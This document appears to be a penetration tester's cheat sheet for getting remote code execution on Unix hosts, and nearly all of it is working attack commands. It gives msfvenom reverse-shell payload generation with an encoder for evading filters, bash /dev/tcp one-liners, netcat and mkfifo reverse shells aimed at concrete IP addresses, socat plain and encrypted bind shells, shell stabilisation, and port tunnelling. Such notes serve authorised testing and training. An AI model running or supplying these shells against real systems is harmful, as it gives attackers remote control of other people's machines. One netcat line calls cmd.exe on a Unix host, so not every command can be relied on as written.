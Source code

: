 # Unix Remote Code Execution

## MSFvenom

<a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

<a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet</a>

=== "Shell File"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```

## Reverse Shell using bash

``` bash
bash -c '0<&60-;exec 60<>/dev/tcp/<LHOST>/<LPORT>;sh <&60 >&60 2>&60' 2> /dev/null
```

``` bash
bash -c 'sh -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 4444 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

### Remote Forwarding

### ssh

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```

### socat

Redirect all port 80 conenctions to ip 202.54.1.5

``` bash
socat TCP-LISTEN:80,fork TCP:202.54.1.5:80
```